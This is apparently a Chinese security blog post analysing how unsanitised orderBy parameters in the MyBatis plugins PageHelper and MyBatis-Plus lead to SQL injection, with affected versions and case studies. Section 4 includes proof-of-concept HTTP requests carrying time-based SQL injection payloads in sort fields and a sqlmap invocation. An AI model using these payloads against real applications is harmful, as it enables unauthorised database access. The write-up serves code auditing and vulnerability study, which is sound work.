# mybatis插件下的SQL注入

## 1. 引言

&emsp;&emsp;首先我们具体聊聊mybatis相关插件的代码实现，当然在这个分析代码流的过程中我们也知晓插件漏洞成因，最后给出一些漏洞案例。

## 2. PageHelper插件

&emsp;&emsp;https://github.com/pagehelper/Mybatis-PageHelper

&emsp;&emsp;PageHelper是一款用于协助分页的mybatis插件，插件分页功能使用不当会造成SQL注入问题，下面我们在分析代码时将遵循程序流逻辑进行叙述，测试时的版本库信息如下：

```
com.github.pagehelper:pagehelper:5.3.2
com.github.pagehelper:pagehelper-spring-boot-autoconfigure:1.4.6
```


### 2.1 添加拦截器到mybatis中

&emsp;&emsp;`spring-boot`中我们通过引入如下依赖即可在mybatis中自动添加pagehelper插件，本小节我们来看看其是如何在应用启动时完成这一动作。

```xml
      <dependency>
            <groupId>com.github.pagehelper</groupId>
            <artifactId>pagehelper-spring-boot-starter</artifactId>
            <version>1.4.6</version>
      </dependency>
```

&emsp;&emsp;添加PageHelper插件到mybatis中的功能为`PageHelperAutoConfiguration`实现的。

&emsp;&emsp;`c.g.p.a.PageHelperAutoConfiguration` ：通过`按类型自动注解`可获得 `sqlSessionFactory` `pagePelperProperties` ，前者来源mybatis的相关bean对象，后者则为PageHelper维护的Bean且Bean字段内容来源于用户的配置。Configuration相关注解对象会被作为Bean进行管理，这里在Bean实例化且完成相关属性注入之后触发添加mybatis拦截器的流程。




mybatis的sqlSessionFactory的Bean对象：



&emsp;&emsp;

### 2.2 设置SQL执行器

&emsp;&emsp;mybatis在最后执行sql语句的时候，由执行器负责，相关接口类为 `org.apache.ibatis.executor.Executor` ，在未添加插件前，我们的sql查询功能会由 `o.a.i.e.CachingExecutor` 直接负责。



&emsp;&emsp;下面我们来看看plugin下的拦截器有何变化。

&emsp;&emsp;`DefaultSqlSessionFactory#openSessionFromDataSource`：sql session在启动时未初始化，当我们第一次触发sql执行时，会从该方法获取sql session进行初始化，在这里也对executor进行设置。



`configuration.newExecutor` ：首先是实例化一个执行器`CachingExecutor`，如果未添加拦截器的情况下，mybatis将直接使用该执行器；如果添加了拦截器，则将调用拦截器的 `plugin`方法，对当前executor进行JDK动态代理。



`o.a.i.p.Plugin`：JDK动态代理的目标方法为拦截器的`Inteceptors注解`中给出的方法签名，具体执行则通过我们前面添加的拦截器的intecept方法去处理被代理的方法。关于`Inteceptors注解`可在`2.4`小节的图片上方看到。



### 2.3 设置线程变量

&emsp;&emsp;如图左所示，在使用时我们先需要执行`PageHelper.startPage`方法设置本次SQL分页的具体参数，startPage的重载方法有多个，比较简便的是`startPage(Object params)`方法，原理就是通过反射获取感兴趣的字段数据。在实例化`Page`后，会将该对象保存到当前线程中 （threadlocal）。根据startPage各个重载方法的代码可以了解到，实际开发者只会控制这三个变量。



### 2.4 拦截器的执行

&emsp;&emsp;`c.g.p.PageInterceptor`：注解中指明JDK动态代理中需要代理拦截的方法；intercept 方法中为具体的分页功能，关于本次查询count的检查等代码这里就不关注了，我们需要关注的具体分页功能在147行代码中，这里获取到了mybatis原本将执行的SQL语句，然后进行分页处理。



​	

&emsp;&emsp;从下图代码可以了解到，当orderBy不为空时会将该字段值拼接到需要查询的SQL后面，后续就是根据情况拼接limit；到这里，我们基本理清楚PageHelper的原理，也了解到该插件在使用不当时是会存在SQL注入漏洞的。




### 2.5 注入问题已修复

&emsp;&emsp;这里测试的`pagehelper starter1.4.6` 版本对oderBy字符串进行了sql防护校验，关键点是左括号被过滤了，而且该SQL注入点还是order by后面，笔者未想到绕过方式，所以高版本下PageHelper注入点无法利用。低点的版本，如`pagehelper starter 1.4.0`，在用户使用不当的情况下可利用该SQL注入问题。



&emsp;&emsp;对应的线程堆栈数据为：

```
check:58, SqlSafeUtil (com.github.pagehelper.util)
setOrderBy:279, Page (com.github.pagehelper)
getPageFromObject:136, PageObjectUtil (com.github.pagehelper.util)
startPage:85, PageMethod (com.github.pagehelper.page)
```


## 3. baomidou插件

&emsp;&emsp;https://github.com/baomidou/mybatis-plus 

```xml
     <dependency>
            <groupId>com.baomidou</groupId>
            <artifactId>mybatis-plus-boot-starter</artifactId>
            <version>3.5.3.1</version>
        </dependency>
```

&emsp;&emsp;baomidou也是一款mybatis的分页插件，而针对这个插件，我们也不过多分析了，有了前文PagerHelper的分析，mybatis插件原理我们大致也了解，所以我们直接查看我们关注的漏洞点。另外这个插件没有修复该SQL注入问题。(这个插件比较坑，source和class代码都对不上，可能是作者用了lombok？）

&emsp;&emsp;该插件中，order字段在使用时如果不注意也会造成SQL注入问题。

&emsp;&emsp;`c.baomidou.m.e.p.i.PaginationInnerInterceptor#beforeQuery `：通过工具类从`parameter`参数变量中获取IPage数据用于分页，针对orderBy的语句的添加，这里先使用jsqlparser工具对当前SQL进行参数化，并对参数化得到的`plainSelect`对象添加orderBy语句，即setOrderByElements。



`c.baomidou.m.c.t.ParameterUtils#findPage` ：从代码中我们可以了解到，如用户传参为IPage实现类或Map字典中有IPage实现类，均可被该工具方法提取出IPage数据。



`n.s.jsqlparser.s.s.PlainSelect#toString`：虽然代码通过jsqlparser对sql进行参数化，但最后的sql语句生成还是通过直接拼接进行实现，所以当用户对该插件使用不当时会有SQL注入问题。




## 4. 漏洞案例

### 4.1 PageHelper

&emsp;&emsp; 插件有漏洞的版本为 `pagehelper-spring-boot-starter`<=1.4.2 ，对应的core `com.github.pagehelper:pagehelper`<=5.3.0 。

&emsp;&emsp;并关注PageHelper以下两个重载方法，在低版本下，如果对应的orderBy可控且用户未过滤、非枚举，则可能存在SQL注入漏洞。

```java
抽象类（父类）
com.github.pagehelper.page.PageMethod#startPage(int, int, java.lang.String)
com.github.pagehelper.page.PageMethod#startPage(java.lang.Object)
子类：
PageHelper#startPage(int, int, java.lang.String)
PageHelper#startPage(java.lang.Object)
```


&emsp;&emsp;如某应用早期版本，使用的PageHelper版本为1.2.5，其未对从用户获取的orderBy数据做过滤，所以可进行SQL注入利用：



&emsp;&emsp;我们可构造如下POC进行漏洞利用：

```http
POST /system/user/list HTTP/1.1
Host: 127.0.0.1:8082
Cookie: ...

pageSize=10&pageNum=1&orderByColumn=? ,(select sleep(1) )-- -&isAsc=desc
```


### 4.2 baomidou

&emsp;&emsp; 如果dao方法传参中含有IPage实现类，且对应的接口方法支持接收复杂对象数据，则可能存在SQL注入漏洞。

&emsp;&emsp;下图代码：开发者编写了一个用于接收用户数据的`LoginLogQueryForm`，该类继承了PageParam属性，且通过`convert2PageQuery`方法将相关属性都传递到page对象中，并在dao查询中传入了该page对象。回顾我们前文说说，当用于查询时传入的参数中，含有IPage实现类时，baomidou会根据该类进行分页，包括orderBy字典也来源于此，所以该代码在queryForm可被用户控制的情况下则存在SQL注入。



&emsp;&emsp;恰好对应的接口方法接受复杂对象传参，即JSON POST：



于是我们可构造如下POC，并通过 `sqlmap --level 5 --technique et`进行测试：

```http
POST /xxxx/loginLog/page/query HTTP/1.1
Host: 127.0.0.1:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Content-Type: application/json

{"userName":"","ip":"","pageNum":1,"pageSize":1,"sortItemList":[{"column":"? ,( * )-- -","isAsc":true}]}
```


## 5. 结语

&emsp;&emsp;在笔者知晓该SQL注入问题后，意识到自己在日渐累积的工作生涯中，日渐淡出了这种探究各“不清不楚”问题的热情。当然也有一些务实行事方法的影响——对待新问题，实际工作中遇到再探究即可，毕竟可学习的东西可多了。但这却也使得笔者在自己比较熟悉的一些方面，遇到某些“概念”时也不以为意，放任不管。

&emsp;&emsp;感谢`2022-12 psrc-甲方视角下的代码审计`的分享，PPT中提到pagehelper插件问题，笔者遂对此进行了一番简单分析，并作此分享。